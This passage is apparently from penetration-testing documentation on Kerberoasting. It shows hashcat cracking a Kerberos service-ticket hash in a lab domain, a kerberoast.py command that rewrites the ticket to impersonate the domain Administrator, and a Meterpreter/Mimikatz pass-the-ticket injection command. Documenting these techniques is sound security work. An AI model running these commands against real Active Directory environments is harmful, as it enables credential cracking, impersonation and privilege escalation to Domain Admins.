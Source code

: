 ```
Time.Estimated...: Tue Jan 10 07:41:11 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (0.03ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Candidates.1.....: test123  -> N0tpassword!
```

If you want to view the hash + cracked password at a later date run the above command with `--show` appended.

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt --show
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>
39efa046757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2695476093ddbd087c115e3:N0tpassword!
```

### Rewrite Service Tickets & RAM Injection

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible
to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow users
to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege
escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
➜  kerberoast git:(master) ✗ python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500
```

The new ticket can be injected back into the memory with the following Mimikatz command in order to perform
authentication with the targeted service via Kerberos protocol.

```
meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi
```
